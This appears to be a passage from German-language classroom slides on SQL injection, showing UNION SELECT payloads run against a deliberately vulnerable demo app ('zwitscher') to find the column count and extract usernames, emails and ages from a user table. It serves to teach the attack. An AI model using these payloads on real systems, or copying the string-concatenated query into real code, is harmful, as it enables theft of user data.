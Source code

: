--

## Was sollen wir tun? Durchprobieren!

Eingabe: <span style="color:crimson">#dog' UNION SELECT 1, 2; -- </span>

```php
$sql = "SELECT * 
        FROM zwitscher
        WHERE hashtag = '#dog' UNION SELECT 1, 2; -- ';
```

[Code ausführen](../zwitscher/?search=%27+UNION+SELECT+1%2C+2%3B+--+)

:(

--

## Was sollen wir tun? Durchprobieren!

Eingabe: <span style="color:crimson">#dog' UNION SELECT 1, 2, 3; -- </span>

```php
$sql = "SELECT *
        FROM zwitscher
        WHERE hashtag = '#dog' UNION SELECT 1, 2, 3; -- ';
```

[Code ausführen](../zwitscher/?search=%27+UNION+SELECT+1%2C+2%2C+3%3B+--+)

:)

---

## Dritter Versuch

- Wie viele Spalten sind in der Ergebnis-Tabelle der ersten Abfrage?
- Drei Spalten!
- Wähle drei Spalten: *username*, *mail*, *age*
<br />
<br />

Eingabe: <span style="color:crimson">#dog' UNION SELECT username, mail, age FROM user; -- </span>

```php
$sql = "SELECT *
        FROM zwitscher
        WHERE hashtag = '#dog' UNION SELECT username, mail, age FROM user; -- ';
```

[Code ausführen](../zwitscher/?search=%23dog%27+UNION+SELECT+username%2C+mail%2C+age+FROM+user%3B+--+)

Bingo!

---

## Zusammenfassung
